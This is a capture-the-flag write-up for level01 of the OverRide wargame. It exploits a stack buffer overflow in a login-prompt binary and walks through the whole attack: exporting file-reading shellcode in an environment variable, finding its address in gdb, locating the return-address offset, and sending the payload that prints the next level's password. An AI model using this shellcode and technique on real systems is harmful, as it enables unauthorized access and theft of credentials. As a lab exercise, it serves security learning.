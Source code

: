 Same thing as the bonus0 of rainfall (we got two read so we need to feed 2 arguments directly).
There is still a small difference, we can overflow the second read but not the first, since the first one is a global variable and the second has a pre-defined max length.

So first we export our shellcode. This shellcode is different : it doesn't run a shell, but it outputs the content of a file's given path (found here: http://shell-storm.org/shellcode/files/shellcode-73.php) :

```bash
bonus0@RainFall:~$ export SHELLCODE=`python -c 'print("\x90" * 30 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level02/.pass")'`
```

Then we find the address of our shellcode :

```bash
level01@OverRide:~$ gdb -q level01 
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80484d5
(gdb) r
Starting program: /home/users/level01/level01 

Breakpoint 1, 0x080484d5 in main ()
(gdb) x/100x *environ
0xffffd792:	0x505f434c	0x52455041	0x5f72663d	0x552e5246
0xffffd7a2:	0x382d4654	0x5f434c00	0x52444441	0x3d535345
0xffffd7b2:	0x465f7266	0x54552e52	0x00382d46	0x4d5f434c
0xffffd7c2:	0x54454e4f	0x3d595241	0x465f7266	0x54552e52
0xffffd7d2:	0x00382d46	0x4c454853	0x444f434c	0x90903d45
0xffffd7e2:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd7f2:	0x90909090	0x90909090	0x90909090	0xdb31c031
```

It is stored since the address `0xffffd7d0` but to be sure we will put `0xffffd7e2` in the stack.

We then need to defined when the buffer start to overflow: (we know by looking inside the decompiled code that the username is `dat_wil`)
>level01@OverRide:~$ gdb -q ./level01 
>Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.
>(gdb) r
>Starting program: /home/users/level01/level01 
>********* ADMIN LOGIN PROMPT *********
>Enter Username: dat_wil
>verifying username....
>Enter Password: 
>AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
>nope, incorrect password...
>Program received signal SIGSEGV, Segmentation fault.
>0x55555555 in ?? ()

So it segfault from byte 81 to byte 84. That's where we need to put the address of the environment variable found previously :

>level01@OverRide:~$ { python -c 'print("dat_wil" * 20)'; python -c 'print("BBBB" * 20 + 3 * "\xe2\xd7\xff\xff")'; } | ./level01
>********* ADMIN LOGIN PROMPT *********
>Enter Username: verifying username....
>Enter Password: 
>nope, incorrect password...
>PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv

```bash
su level02
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

